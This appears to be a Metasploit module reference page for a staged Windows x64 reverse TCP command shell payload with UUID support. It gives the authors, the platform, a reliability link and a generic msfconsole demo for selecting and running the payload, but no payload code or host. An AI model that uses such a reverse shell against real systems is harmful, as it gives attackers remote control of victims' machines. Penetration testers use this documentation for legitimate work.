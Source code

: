 ## Windows x64 Command Shell, Reverse TCP Stager with UUID Support (Windows x64)

Spawn a piped command shell (Windows x64) (staged). Connect 
back to the attacker with UUID Support (Windows x64)


## Module Name
payload/windows/x64/shell/reverse_tcp_uuid

## Authors
* sf
* OJ Reeves





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/shell/reverse_tcp_uuid
msf payload(reverse_tcp_uuid) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_uuid) > set TARGET <target-id>
msf payload(reverse_tcp_uuid) > show options
   ... show and set options ...
msf payload(reverse_tcp_uuid) > run
```
    
    